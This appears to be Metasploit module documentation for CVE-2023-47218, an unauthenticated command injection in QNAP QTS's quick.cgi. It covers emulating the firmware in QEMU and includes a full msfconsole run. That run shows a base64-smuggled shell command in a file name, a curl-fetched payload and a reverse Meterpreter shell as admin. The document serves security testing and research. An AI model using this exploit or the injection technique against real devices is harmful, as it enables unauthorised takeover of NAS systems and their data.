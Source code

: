 ## Vulnerable Application

### Description
There exists an unauthenticated command injection vulnerability in the QNAP operating system known as QTS and
QuTS hero. QTS is a core part of the firmware for numerous QNAP entry and mid-level Network Attached Storage
(NAS) devices, and QuTS hero is a core part of the firmware for numerous QNAP high-end and enterprise NAS devices.

The vulnerable endpoint is the quick.cgi component, exposed by the device’s web based administration feature.
The quick.cgi component is present in an uninitialized QNAP NAS device. This component is intended to be used
during either manual or cloud based provisioning of a QNAP NAS device. Once a device has been successfully
initialized, the quick.cgi component is disabled on the system.

An attacker with network access to an uninitialized QNAP NAS device may perform unauthenticated command
injection, allowing the attacker to execute arbitrary commands on the device.

### Setup
Vulnerable firmware can be downloaded from:
[TS-X64_20230926-5.1.2.2533.zip](https://download.qnap.com/Storage/TS-X64/TS-X64_20230926-5.1.2.2533.zip)
In order to decrypt the firmware use the following script:
[qnap-qts-fw-cryptor.py](https://gist.github.com/ulidtko/966277a465f1856109b2d2674dcee741)

Unzip the archive:
```
user@dev:~/qnap/$ unzip TS-X64_20230926-5.1.2.2533.zip 
Archive:  TS-X64_20230926-5.1.2.2533.zip
  inflating: TS-X64_20230926-5.1.2.2533.img  
```

Decrypt the firmware:
```
user@dev:~/qnap/$ python3 qnap-qts-fw-cryptor.py d QNAPNASVERSION5 TS-X64_20230926-5.1.2.2533.img TS-X64_20230926-5.1.2.2533.tgz
Signature check OK, model TS-X64, version 5.1.2
Encrypted 1048576 of all 220239236 bytes
[99% left]
[99% left]
[99% left]
...snip
[02% left]
[00% left]
[00% left]
user@dev:~/qnap/$ ls
qnap-qts-fw-cryptor.py  TS-X64_20230926-5.1.2.2533.img  TS-X64_20230926-5.1.2.2533.tgz  TS-X64_20230926-5.1.2.2533.zip
```

Recreate the root file system:
```
user@dev:~/qnap/$ mkdir firmware
user@dev:~/qnap/$ tar -xvzf TS-X64_20230926-5.1.2.2533.tgz -C ./firmware/
user@dev:~/qnap/$ binwalk -e firmware/initrd.boot
user@dev:~/qnap/$ binwalk -e firmware/_initrd.boot.extracted/0
user@dev:~/qnap/$ binwalk -e firmware/rootfs2.bz
user@dev:~/qnap/$ binwalk -e firmware/_rootfs2.bz.extracted/0
user@dev:~/qnap/$ mv firmware/_rootfs2.bz.extracted/_0.extracted/* firmware/_initrd.boot.extracted/_0.extracted/cpio-root/
```

To run the Firmware first copy the qemu-x86_64-static binary into the root file system folder:
```
user@dev:~/qnap/$ cd firmware/_initrd.boot.extracted/_0.extracted/cpio-root/
user@dev:~/qnap/firmware/_initrd.boot.extracted/_0.extracted/cpio-root$ cp $(which qemu-x86_64-static) .
```

Run _thttpd_ via QEMU:
```
user@dev:~/qnap/firmware/_initrd.boot.extracted/_0.extracted/cpio-root$ 
sudo chroot . ./qemu-x86_64-static usr/local/sbin/_thttpd_ -p 8080  -nor -nos -u admin -d /home/httpd -c '**.*' -h 0.0.0.0 -i /var/lock/._thttpd_.pid
```

Verify the HTTP server is running:
```
user@dev:~/qnap/firmware/_initrd.boot.extracted/_0.extracted/cpio-root$ sudo netstat -lnp | grep 8080
tcp        0      0 0.0.0.0:8080            0.0.0.0:*               LISTEN      1195417/./qemu-x86_ 
```

At the time of writing `/dev/random` and `/dev/urandom` are required to be present in the environment in order to work
around the following issue: https://github.com/rapid7/mettle/issues/255.
Ensure the binaries exist on your system:
```
user@dev:~/qnap/firmware/_initrd.boot.extracted/_0.extracted/cpio-root$ ls /dev/random
/dev/random
user@dev:~/qnap/firmware/_initrd.boot.extracted/_0.extracted/cpio-root$ ls /dev/urandom
/dev/urandom
```

Create files the files:
```
user@dev:~/qnap/firmware/_initrd.boot.extracted/_0.extracted/cpio-root$ touch dev/random
user@dev:~/qnap/firmware/_initrd.boot.extracted/_0.extracted/cpio-root$ touch dev/urandom
```

Mount the binaries:
```
user@dev:~/qnap/firmware/_initrd.boot.extracted/_0.extracted/cpio-root$ sudo mount --bind  /dev/random  dev/random
user@dev:~/qnap/firmware/_initrd.boot.extracted/_0.extracted/cpio-root$ sudo mount --bind  /dev/urandom  dev/urandom
```

Drop to a shell via QEMU:
```
user@dev:~/qnap/firmware/_initrd.boot.extracted/_0.extracted/cpio-root$ sudo chroot . /bin/sh
```

Enable the component quick.cgi:
```
sh-3.2# chmod +x /home/httpd/cgi-bin/quick/quick.cgi
```

Fix a linker issue with QEMU:
```
sh-3.2# rm /lib/libnl-3.so.200
sh-3.2# ln -s /lib/libnl-3.so.200.24.0 /lib/libnl-3.so.200
```

Create this folder as it will be present in a NAS device containing a hard drive:
```
sh-3.2# mkdir /mnt/HDA_ROOT
```

## Verification Steps

1. Start msfconsole
1. Do: `use linux/http/qnap_qts_rce_cve_2023_47218`
1. Set the following options: `RHOST`, `RPORT`, `LHOST` and `FETCH_SRVPORT` if 8080 is already in use.
1. Run the module
1. Receive a Meterpreter session as the `admin` user.

## Scenarios
### TS-X64_20230926-5.1.2.2533 firmware emulated via qemu using the steps above.
```
msf6 > use linux/http/qnap_qts_rce_cve_2023_47218
[*] No payload configured, defaulting to cmd/linux/http/x64/meterpreter/reverse_tcp
msf6 exploit(linux/http/qnap_qts_rce_cve_2023_47218) > set rport 8080
rport => 8080
msf6 exploit(linux/http/qnap_qts_rce_cve_2023_47218) > set rhost 172.16.199.130
rhost => 172.16.199.130
msf6 exploit(linux/http/qnap_qts_rce_cve_2023_47218) > set lhost 172.16.199.158
lhost => 172.16.199.158
msf6 exploit(linux/http/qnap_qts_rce_cve_2023_47218) > set fetch_srvport 8085
fetch_srvport => 8085
msf6 exploit(linux/http/qnap_qts_rce_cve_2023_47218) > options

Module options (exploit/linux/http/qnap_qts_rce_cve_2023_47218):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   Proxies                   no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS   172.16.199.130   yes       The target host(s), see https://docs.metasploit.com/docs/using-metasp
                                       loit/basics/using-metasploit.html
   RPORT    8080             yes       The target port (TCP)
   SSL      false            no        Negotiate SSL/TLS for outgoing connections
   VHOST                     no        HTTP server virtual host


Payload options (cmd/linux/http/x64/meterpreter/reverse_tcp):

   Name                Current Setting  Required  Description
   ----                ---------------  --------  -----------
   FETCH_COMMAND       CURL             yes       Command to fetch payload (Accepted: CURL, FTP, TFTP, TNFTP
                                                  , WGET)
   FETCH_DELETE        false            yes       Attempt to delete the binary after execution
   FETCH_FILENAME      mvcWDkBxSOK      no        Name to use on remote system when storing payload; cannot
                                                  contain spaces.
   FETCH_SRVHOST                        no        Local IP to use for serving payload
   FETCH_SRVPORT       8085             yes       Local port to use for serving payload
   FETCH_URIPATH                        no        Local URI to use for serving payload
   FETCH_WRITABLE_DIR  /mnt/update      yes       Remote writable dir to store payload; cannot contain space
                                                  s.
   LHOST               172.16.199.158   yes       The listen address (an interface may be specified)
   LPORT               4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Default



View the full module info with the info, or info -d command.

msf6 exploit(linux/http/qnap_qts_rce_cve_2023_47218) > run

[*] Started reverse TCP handler on 172.16.199.158:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[!] The service is running, but could not be validated.
[*] Sending stage (3045380 bytes) to 172.16.199.130
[+] Deleted /mnt/update/RjzvVkLp
[+] Deleted /mnt/update/"$($(echo -n YmFzaCAvbW50L3VwZGF0ZS9Sanp2VmtMcA==|base64 -d))"
[*] Meterpreter session 1 opened (172.16.199.158:4444 -> 172.16.199.130:40004) at 2024-02-15 12:20:04 -0900

meterpreter > getuid
Server username: admin
meterpreter > sysinfo
Computer     : 172.16.199.130
OS           :  (Linux 6.2.0-35-generic)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
meterpreter >
```
